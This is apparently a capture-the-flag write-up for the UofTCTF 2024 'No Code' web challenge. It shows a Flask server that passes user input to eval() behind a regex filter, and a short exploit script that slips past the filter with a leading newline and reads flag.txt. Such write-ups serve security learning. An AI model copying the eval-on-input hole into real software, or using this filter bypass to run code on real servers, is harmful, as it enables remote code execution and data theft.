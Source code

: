 ```yaml
---
title: No Code
date: 2024-01-16
tags: web
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

We see that it uses a regex `/.*[\x20-\x7E]+.*` to filter it from any "normal" ascii characters.

However, we can simply send a newline to overcome this (thanks {% person squiddy %}):

```python
import requests

code = """\nopen("flag.txt").read()"""

a = requests.post('https://uoftctf-no-code.chals.io/execute',{"code": code})
print(a.text)
```
